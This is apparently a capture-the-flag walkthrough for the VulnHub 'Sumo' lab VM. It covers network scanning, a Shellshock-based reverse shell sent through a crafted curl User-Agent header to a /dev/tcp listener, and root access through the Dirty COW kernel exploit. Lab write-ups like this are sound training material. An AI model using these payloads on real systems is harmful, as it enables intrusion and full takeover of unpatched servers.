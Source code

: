 # Sumo

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:6c:b0:85	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The IP address is `192.168.127.133`, let's enumerate it.

### 2.Enumeration

```bash
root@kali: nmap -p- -sT -sV -sC -v -oN nmap.out 192.168.127.133
Nmap scan report for 192.168.127.133
Host is up (0.00033s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:6C:B0:85 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

try to scan port 80 with `nikto` :

```bash
root@kali: nikto -h 192.168.127.133
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b0b2b5ff-8ca4-4de2-8e60-05778cf42758)

site is vulnerable to shellshock, we can confirm it by nmap too :

```bash
nmap 192.168.127.133 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 06:14 EDT
Nmap scan report for 192.168.127.133
Host is up (0.00039s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
MAC Address: 00:0C:29:6C:B0:85 (VMware)
```

we just need to execute a reverse shell command to get the shell


### 3.Gaining Shell

Use the below command to get the shell :

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.127.128/4444 0>&1' http://192.168.127.133/cgi-bin/test
```

```bash
www-data@ubuntu:/var/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.Privilege Escalation

Since this is an old machine, we can use dirtycow exploit :

```bash
www-data@ubuntu:/var/www$ uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/var/www$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

use `dirtycow.c` from [here](https://github.com/firefart/dirtycow/blob/master/dirty.c) :

```bash
www-data@ubuntu:/var/www$ /usr/bin/gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu: ./dirty
```

then you can login with user `firefart` and the password you provided when executing the exploit :

```bash
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
```

this is how you can get root on this machine :)












